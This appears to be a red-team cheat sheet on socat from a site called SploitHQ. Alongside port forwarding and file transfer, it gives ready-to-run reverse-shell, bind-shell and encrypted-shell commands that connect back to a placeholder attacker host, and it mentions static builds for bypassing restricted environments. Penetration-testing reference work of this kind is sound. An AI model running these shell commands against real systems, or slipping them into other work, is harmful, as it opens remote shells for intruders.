 # socat – Versatile Tool for Network Connectivity and Redirection

**socat** (short for SOcket CAT) is a powerful command-line utility for **bidirectional data transfer** between two data channels. It's a Swiss Army knife for red teamers, penetration testers, and sysadmins needing advanced socket manipulation, port forwarding, tunneling, and shell execution.

🔗 [Explore socat Usage on SploitHQ](https://sploithq.com/socat)

---

## 🔍 What Can socat Do?

- Forward TCP or UDP connections
- Relay between files, sockets, PTYs, and devices
- Create bind and reverse shells
- Serve as a proxy or encrypted listener
- Forward connections over UNIX domain sockets, pipes, SSL, and more

---

## ⚙️ Basic Syntax

```bash
socat <channel1> <channel2>
```

Each channel can be a file, TCP/UDP port, device, or process.

---

## 🧰 Common Use Cases

| Purpose            | Example |
|--------------------|---------|
| Reverse shell      | `socat TCP:attacker:4444 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane` |
| Bind shell         | `socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane` |
| Encrypted listener | `socat OPENSSL-LISTEN:443,cert=cert.pem,key=key.pem,fork EXEC:/bin/bash` |
| File transfer      | `socat -u FILE:file.bin TCP:host:1234` |
| Redirect to a port | `socat TCP-LISTEN:80,fork TCP:localhost:8080` |

---

## 🧪 Reverse Shell Example

### Attacker (Listener):
```bash
socat -d -d TCP-LISTEN:4444,reuseaddr,fork STDOUT
```

### Victim (Reverse shell):
```bash
socat TCP:attacker-ip:4444 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

---

## 🧪 Bind Shell Example

### Victim:
```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

### Attacker:
```bash
socat - TCP:target-ip:4444
```

---

## ⚠️ Notes

- `socat` is extremely flexible but also syntax-sensitive — quotes and commas matter
- Often used where `nc` or `bash /dev/tcp` are not available
- Use `-d -d` flags for debugging connection problems
- Can be statically compiled to bypass restricted environments

---

## 🌐 SploitHQ socat Resources

👉 [View socat Reverse Shells and Networking Tricks](https://sploithq.com/socat)

- Full list of bind/reverse shell variants
- Encrypted shells with OpenSSL
- File transfer and port forwarding use cases

---

## 🔗 Useful Links

- [socat Man Page (man7.org)](https://man7.org/linux/man-pages/man1/socat.1.html)
- [Red Team socat Shell Examples](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet)
- [SploitHQ socat Page](https://sploithq.com/socat)

---

## 📄 License

socat is free software under the GPL license.  
This guide is maintained by [SploitHQ](https://sploithq.com) and intended for ethical hacking, red teaming, and secure system administration.
